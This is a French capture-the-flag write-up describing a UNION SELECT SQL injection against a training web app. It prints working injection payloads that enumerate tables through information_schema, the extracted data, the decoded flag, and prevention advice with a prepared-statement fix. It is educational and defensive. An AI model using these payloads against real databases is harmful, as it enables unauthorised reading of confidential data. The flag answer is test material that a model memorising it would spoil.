




# Injection SQL avec UNION SELECT

## 1. Introduction
J'ai exploité une **injection SQL de type UNION SELECT** pour récupérer des informations sensibles depuis la base de données. Cette attaque m'a permis de révéler des tables cachées, de lire des données confidentielles, et finalement de décoder un **flag** en utilisant des algorithmes de hachage.

## 2. Comment j'ai trouvé la faille
En examinant le comportement des paramètres dans l'URL, j'ai suspecté une **injection SQL**. J'ai utilisé une **condition fausse (`1 AND 1=2`)** suivie d'un **UNION SELECT** pour combiner mes requêtes avec celles du serveur.

### **Requête pour lister les images**
```sql
1 OR TRUE
```

Cela m'a permis de réveler la liste des images.



### **Requête pour lister les tables**
```sql
1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables;
```
Cela m'a permis de révéler les schémas et les noms de tables dans la base de données, y compris une table intéressante appelée `list_images`.


### **Requête pour lire les colonnes de list_images**
```sql
1 AND 1=2 UNION SELECT comment, title FROM list_images;
```
En interrogeant cette table, j'ai obtenu l'information suivante :

```
Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```



## 3. Exploitation de la faille
J'ai ensuite utilisé l'information obtenue pour déchiffrer le flag :

1. **Déchiffrement du MD5**
```
1928e8083cf461a51303633093573c46  =>  albatroz
```
J'ai utilisé un site de décryptage MD5 en ligne pour trouver le mot **albatroz**.



2. **Conversion en SHA-256**
En utilisant le terminal, j'ai converti le texte déchiffré en SHA-256 :
```bash
echo -n "albatroz" | sha256sum
```
Ce qui m'a donné le flag final :
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```



## 4. Impact de la faille
Cette faille permet de :
- Lister toutes les tables de la base de données.
- Lire les données sensibles depuis n'importe quelle table.
- Contourner les contrôles d'accès en manipulant les requêtes SQL.
- Déchiffrer des informations confidentielles.

## 5. Comment prévenir cette faille
Pour éviter cette injection SQL, il faut :
- **Utiliser des requêtes préparées** (`Prepared Statements`) qui séparent les entrées utilisateur de la logique SQL.
- **Échapper les entrées utilisateur** avec des fonctions dédiées selon le langage de programmation utilisé.
- **Valider les entrées** pour s'assurer qu'elles correspondent aux types de données attendus (par exemple, des entiers pour les IDs).
- **Limiter les permissions de l'utilisateur SQL** pour restreindre l'accès aux schémas et aux tables critiques.

## 6. Comment corriger la faille
Voici un exemple de requête préparée en PHP pour éviter cette injection :
```php
$stmt = $pdo->prepare("SELECT comment, title FROM list_images WHERE id = :id");
$stmt->execute(['id' => $_GET['id']]);
$result = $stmt->fetch();
```
Ce code utilise des **paramètres nommés** et des **requêtes préparées** pour protéger la base de données.

## 7. Conclusion
J'ai utilisé une **injection SQL UNION SELECT** pour énumérer les tables de la base de données, lire des données sensibles, et décoder un flag à l'aide de **MD5** et **SHA-256**. Cette exploitation montre l'importance des **requêtes préparées**, de la **validation stricte des entrées utilisateur**, et de la **gestion des permissions SQL** pour protéger les applications web.


